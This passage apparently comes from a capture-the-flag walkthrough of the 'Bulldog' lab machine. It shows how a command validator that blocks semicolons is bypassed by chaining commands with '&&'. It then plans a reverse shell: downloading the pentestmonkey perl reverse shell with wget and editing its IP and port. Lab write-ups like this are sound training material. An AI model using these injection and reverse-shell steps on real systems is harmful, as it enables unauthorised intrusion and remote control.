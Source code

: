 So this function checks that the shell command we've issued is in the list of allowed commands, and that a semicolon isn't in the command. The shell() function (which calls the validate() function) will print this message if there is a semicolon present:
"INVALID COMMAND. I CAUGHT YOU HACKER! ';' CAN BE USED TO EXECUTE MULTIPLE COMMANDS!!"

It appears that the validate() function must only ensure that the <i>first</i> command issued matches the list of allowed commands. If multiple commands could be chained together, later ones wouldn't be validated, and could probably be whatever command we wanted! That's what this script is trying to stop by checking for semicolons, since semicolons can be used for issuing multiple commands on one line. However, the semicolon certainly isn't the only way to do that. What happens if instead we use the double ampersands (&&) to issue multiple commands?

![Alt text](/images/bulldog_13.png?raw=true "jailbreak")

Ah! After the ouptut of the (legitimate) ls command, we can see the output of the id command! We've now successfully broken out of the jail shell. However, the web interface is still pretty unwieldy; it'd be nicer if we had a more complete interactive shell. One way to get a shell on the box would be to use the <strong>wget</strong> utility, download a reverse shell from the attacker's web server, then set up a listener on our attacking box and execute the reverse shell from the web interface. The presence of wget can be verified by issuing the following command:
<code>ls && which wget</code>

This command reveals that wget is present and can be found in /usr/bin/wget. Now we need to find an appropriate shell. Recall that the discussion of the previous compromise of the website stated that PHP will no longer be used, so PHP probably isn't a good choice. However, perl is installed on the victim machine, so we could leverage that by using a perl reverse shell. If you're running Kali, there's a perl shell already available at /usr/share/webshells/perl/perl-reverse-shell.pl. If not, you can obtain this shell here:
http://pentestmonkey.net/tools/web-shells/perl-reverse-shell

Next, this can be placed in the Apache web server directory (or a different directory if you'd like to use something like Python's SimpleHTTPServer insead). Make sure you edit the shell so that these lines reflect your IP address and desired port for catching the shell: 
# Where to send the reverse shell.  Change these.
my $ip = '127.0.0.1';
my $port = 1234;
